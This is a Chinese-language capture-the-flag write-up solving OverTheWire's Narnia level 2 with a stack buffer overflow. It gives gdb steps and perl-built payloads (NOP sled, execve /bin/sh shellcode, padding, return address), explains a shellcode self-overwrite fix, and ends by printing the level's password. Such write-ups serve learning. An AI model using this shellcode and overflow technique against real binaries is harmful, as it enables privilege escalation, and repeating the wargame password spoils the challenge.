



### 解題思路

首先透過find_offset.py 找到正確的offset
另外，shellcode 都用 http://shell-storm.org/shellcode/files/shellcode-606.html
這個是 execve("/bin/bash",["/bin/bash","-p"],NULL), 如果沒有-p 沒有辦法提權。具體爲什麽我真的不理解
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

```bash
1. gdb -q narnia2
2. set disassembly-flavor intel
3. disas main
4. b *0x080491d7
5. run $(perl -e 'print "\x90"x104 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"  . "\xe8\xd5\xff\xff"')

```

覆寫都正常，也沒有canary protection, 但是失敗。
原因是這個shellcode 有四個push, push eax,ebx,ecx,edx 因此shellcode 破壞了自己本身。
我們要做的事預留16個bytes 的空位

```bash
6. run $(perl -e 'print "\x90"x88 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" . "B"x16 . "\xe8\xd5\xff\xff"') # 這個shellcode 是 28 bytes

```

成功了！
cat /etc/narnia_pass/narnia2: 2xszzNl6uG


gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8